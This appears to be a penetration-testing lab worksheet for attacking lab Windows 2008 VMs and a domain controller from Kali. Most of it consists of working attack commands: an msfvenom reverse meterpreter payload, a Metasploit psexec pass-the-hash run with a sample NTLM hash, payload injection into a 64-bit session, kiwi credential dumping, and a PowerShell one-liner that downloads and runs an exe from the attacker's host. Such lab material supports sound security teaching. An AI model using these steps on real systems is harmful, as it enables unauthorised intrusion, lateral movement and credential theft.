 1. Download M1 from Google Drive

2. Start:
-Kali2<BR>
-2k8dc_a2<BR>
-2k8m2_a1<BR>


3. On the Kali2 host, set a static IP 192.168.168.110<BR>
ifconfig eth0 192.168.168.110<BR>
ifconfig eth0 netmask 255.255.255.0<BR><BR>

4. Repeat last week’s step's to gain the password hash from M2 (refer to last week's notes). You'll want to grab the 32 characters on one side of the : and the 32 characters afterwards, such as<BR> aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9<BR>

5. Generating a reverse meterpreter payload within msfvenom (Kali 2):<BR>
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.168.110 lport=7477 -f exe -o /var/www/html/payload.exe<BR>
#Then don’t forget to start a listener and restart apache<BR>

6. Copy password and hash to a text file on the Kali box for reference.<BR>
7. Stop the VM 2k8m2_a1<BR>
8. Start the VM 2k8m1<BR>
9. Determine M1’s IP<BR>
10. Perform information gathering and enumeration against M1 with nmap<BR>
11. We know the password for M2's local Administrator, let's try it against M1.<BR>
12. With SMB open, what can we use to get onto M1?  The psexec module is often used by penetration testers to obtain access to a given system that you already know the credentials for. #It was written by sysinternals and has been integrated within the framework.<BR>
13. Within msfconsole:<BR>
use exploit/windows/smb/psexec<BR>
set rhost 192.168.168.101<BR>
set SMBUser Administrator<BR>
set SMBPass aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9<BR>
show options<BR>
set payload windows/meterpreter/reverse_tcp<BR>
set lhost 192.168.168.110<BR>
set lport 7479<BR>
exploit<BR>
14. meterpreter > hashdump<BR>
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.<BR>
meterpreter > sysinfo<BR>
Computer        : M1<BR>
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).<BR>
Architecture    : x64 (Current Process is WOW64)<BR>
meterpreter > background<BR>

15. Move to a 64bit Meterpreter session:<BR>
msfconsole> use windows/local/payload_inject <BR>
set payload windows/x64/meterpreter/reverse_tcp <BR>
set session x<BR>
set lhost 192.168.168.110<BR>
exploit<BR>
meterpreter> sysinfo<BR>

16. Now try getting the password in plaintext. If for some reason you don’t see Alice’s password within a 64 bit Meterpreter shell, you need to delete the M1 virtual and re-extract the zip file or redownload it from Google Drive. Remember, interactive logins are wiped from memory when the system restarts!<BR>
meterpreter> load kiwi<BR>
meterpreter> help<BR>
meterpreter> creds_all<BR>
Now that you have the creds, how did you get them? From what insecure package?<BR>
  
17. Via RDP, connect to the DC with the new creds for Alice.<BR>
18. How can we get a payload on the box if Enhanced IE security is enabled? Hint: Zones or PowerShell<BR>

  PowerShell (New-Object System.Net.WebClient).DownloadFile('http://192.168.168.110/yourpayload.exe','yourpayload.exe.exe');Start-Process 'yourpayload.exe'

19. How did you find missing patches before?<BR>
  
  
  
